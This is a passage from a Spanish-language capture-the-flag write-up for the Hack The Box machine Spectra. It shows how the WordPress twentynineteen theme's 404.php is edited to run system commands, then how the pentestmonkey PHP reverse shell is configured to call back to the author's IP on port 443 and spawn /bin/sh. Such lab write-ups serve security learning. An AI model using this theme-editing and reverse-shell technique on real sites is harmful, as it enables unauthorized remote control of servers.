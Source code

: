 En este caso voy a usar otro porque nos salio el mensaje de error, usare el twenty nineteen y ahi no sale un mensaje de error:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/SPECTRA/images/5.PNG)

Entonces si vamos a la siguiente ruta nos mostrara nuestro comando que colocamos:

```
spectra.htb/main/wp-content/themes/<nuestro tema editado>/404.php
```

En nuestro caso el tema es twenty nineteen:

```
spectra.htb/main/wp-content/themes/twentynineteen/404.php
```

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/SPECTRA/images/6.PNG)

vemos que esta ejecutando comandos a nivel de sistema, entonces podemos intentar spawnearnos una shell:

colocamos lo siguiente en la plantilla que es una plantilla de monkey pentester:

[monkey pentester](http://pentestmonkey.net/tools/web-shells/php-reverse-shell)

a la plantilla solo se cambia los siguiente:

```
set_time_limit (0);
$VERSION = "1.0";
$ip = '10.10.16.41';  // NUESTRA IP
$port = 443;       // PUERTO A LA ESCUCHA
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;
```
